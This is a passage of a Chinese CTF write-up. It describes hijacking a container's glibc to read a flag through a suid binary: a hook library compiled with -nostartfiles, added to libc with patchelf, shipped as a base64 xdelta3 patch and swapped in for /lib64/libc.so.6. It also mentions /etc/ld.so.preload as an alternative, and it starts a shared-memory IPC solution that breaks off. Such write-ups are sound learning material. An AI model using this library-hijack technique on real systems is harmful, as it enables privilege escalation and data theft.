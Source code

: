     编译命令

    ```bash
    gcc -shared hook.c -fPIC -nostartfiles -o hook.so
    ```

    用了 nostartfiles 这个选项是为了防止 gcc 编译时候引入的初始化函数和我们的 hook 重名（~~而我们就是故意重名的~~），导致在链接阶段时报 multiple definition of `_init' 的错误。

2. 把容器里的 glibc 下载下来，再用 patchelf 把自己的 hook 加到 glibc 的依赖里，从而覆盖调 glibc 本身的 _init 函数。
    ```bash
    cp libc.so.6 libc_orig.so.6
    patchelf --add-needed ./libc.so.6 hook.so
    ```
3. 用 xdelta3 制作一个 patch
    ```bash
    xdelta3 -e -s libc_orig.so.6 libc.so.6 libc.patch
    ```
4. 打包并上传相关文件到题目环境，~~开始偷flag~~
   
    本地
    ```bash
    7z a patch.zip hook.so libc.patch /usr/bin/xdelta3 /usr/lib/x86_64-linux-gnu/liblzma.so*
    cat patch.zip | xz | base64 > patch.txt
    ```

    远程

    ```bash
    base64 -d | xz -d > patch.zip
    # 粘贴 patch.txt 再 Ctrl + D
    unzip patch.zip
    mv liblzma.so* /lib64
    chmod +x xdelta3
    ./xdelta3 -d -s /lib64/libc.so.6 libc.patch /lib64/libc_patched.so.6
    mv /lib64/libc_patched.so.6 /lib64/libc.so.6
    ./chall
    # 此时我们已经可以读取 flag 内容了，Ctrl + C 掉
    strings chall | grep flag
    cat /flag2
    ```

后来看了其他选手 writeup，原来 /etc/ld.so.preload 对 suid binary 是有效的，用不着 patch glibc，还是做麻烦了。


## 看不见的彼方

考察 Linux 进程 IPC，不可以用 socket 和文件，那就用 shm 吧。

A.c

```c
#include <stdio.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <string.h>
#include <stdlib.h>

int main()
{
    key_t key = ftok("shmfile", 65);
    int shmid = shmget(key, 1024, 0666 | IPC_CREAT);
    char *str = (char*) shmat(shmid, (void*)0, 0);

    memset(str, 0, 1024);
```